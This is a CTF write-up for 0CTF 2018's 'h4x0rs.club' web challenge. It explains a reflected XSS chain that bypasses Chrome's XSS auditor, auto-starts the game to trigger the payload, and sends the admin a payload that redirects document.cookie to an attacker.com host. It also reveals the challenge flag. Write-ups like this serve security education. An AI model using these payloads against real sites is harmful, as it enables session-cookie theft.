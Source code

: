# 0CTF 2018: h4x0rs.club  - Part II

**Category:** Web
**Points:** 687
**Solves:** 6
**Description:**

> Get document.cookie of the admin: https://h4x0rs.club/game/

**Note:** This is an unintendend solution for the challenge.
## Write-up
 
### Finding the XSS

There is a XSS on `/game/javascripts/app.js` in the function responsible for checking if the player won or lost the game.

```
function b() {
       x(), $(".js-user").append($("#audiences").html()), $(".challenge-out-of-time").show();
       [...]
 }
```

The function above copies the html of an element with id `audiences` to an element with class `js-user` so by creating these elements using the injection on `/game/?msg=` we can achieve javascript execution.

Then, theoretically, by accessing `https://h4x0rs.club/game/?msg=<div id="audiences"><script>alert(1);</script></div><div class="js-user"></div>` and clicking on the play button an alert should pop up after around 15 seconds (the time it takes for the game to end).

But it doesn't, we are stopped by Chrome's XSS auditor which blocks the access to the page because it detected that a `script` tag on the URL was also reflected into the page.

We can bypass it by sending `https://h4x0rs.club/game/?msg=<div id="audiences"><script><!--alert(1);</script></div><div class="js-user"></div>` which isn't executed by the browser, but when appended by JQuery through the `append` function, will, surprisingly, ignore the `<!--`
and add our tag to the `js-user` div.

### Triggering the XSS

Finding the XSS isn't all that is needed to solve this challenge, given the user would have to click in the play button for the XSS to be triggered, and in this case, the admin will not interact in any way with the page after accessing it.

This is when the code on `/game/javascripts/client.js` comes in handy.

```
$( document ).ready(function() {
    CLIENT_GAME.init();
    [...]
    setTimeout(function(){$('.js-difficulty').children().click();}, 1000);
});
```

The code above will get all childrens of the elements with class `js-difficulty` and then click on them, exactly what we need to finish the chain.
By creating a div with class `js-difficulty` and inside it creating another div with class `js-start-button` we can start the game without any user interaction.

You can test it by accessing:

```https://h4x0rs.club/game/?msg=<div class="js-difficulty"><div class="js-start-button"></div></div>```

Combining these two we arrive at the final payload that will be sent to the admin:

```https://h4x0rs.club/game/?msg=<div id="audiences"><script><!--location.href="http://attacker.com/?cookie="+document.cookie;</script></div><div class="js-user"></div><div class="js-difficulty"><div class="js-start-button"></div></div>```

### Sending the payload

The biography also isn't being properly sanitized, so you can set it to:

```<a href="http://attacker.com/redirect.html" id="report-btn"></a>```

Further, reporting your own profile to the admin with the hash `report` added to it will make the admin click on the link and be redirected to your website, because the code below is present in the page:

```
if(location.hash.slice(1) == 'report'){
       document.getElementById('report-btn').click();
}
```

Then you make `redirect.html` redirect the admin again to your final payload, which will start the game and trigger the XSS, sending his session (and the flag) back to you.

## Flag

```flag{postman_1n_the_middl3}```

## Contact

If you have any questions feel free to contanct me on [@lbherrera_](https://twitter.com/lbherrera_)
